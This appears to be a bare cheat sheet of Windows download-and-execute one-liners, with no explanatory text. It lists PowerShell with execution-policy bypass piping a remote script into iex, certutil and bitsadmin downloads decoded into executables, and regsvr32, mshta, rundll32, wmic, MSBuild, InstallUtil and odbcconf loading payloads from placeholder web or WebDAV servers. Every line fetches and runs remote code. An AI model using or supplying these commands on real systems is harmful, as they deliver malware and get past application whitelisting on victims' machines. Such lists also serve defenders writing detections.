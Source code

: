 ```powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://server/payload.ps1')|iex"```

```powershell -exec bypass -f \\webdavserver\folder\payload.ps1```

```cmd.exe /k < \\webdavserver\folder\batchfile.txt```

```certutil -urlcache -split -f http://server/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe & payload.exe```

```certutil -urlcache -split -f http://server/payload.b64 payload.b64 & certutil -decode payload.b64 payload.dll & C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil /logfile= /LogToConsole=false /u payload.dll```

```certutil -urlcache -split -f http://server/payload payload```

```cmd /V /c "set MB="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe" & !MB! /noautoresponse /preprocess \\webdavserver\folder\payload.xml > payload.xml & !MB! payload.xml"```

```odbcconf /s /a {regsvr \\webdavserver\folder\payload_dll.txt}```

```bitsadmin /Transfer myJob http://server/file.b64 C:\users\username\file.b64 && certutil -decode C:\users\username\file.b64 C:\users\username\mallicious.exe && del C:\users\username\file.b64 && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\username\malicious.exe```

```regsvr32 /u /n /s /i:http://server/payload.sct scrobj.dll```

```regsvr32 /u /n /s /i:\\server\folder\payload.sct scrobj.dll```

```wmic os get /format:"https://server/payload.xsl"```

```rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://webserver/payload.sct");window.close();```

```mshta http://webserver/payload.hta```

```mshta vbscript:Close(Execute("GetObject(""script:http://webserver/payload.sct"")"))```

```mshta \\webdavserver\folder\payload.hta```

```cscript //E:jscript \\webdavserver\folder\payload.txt```
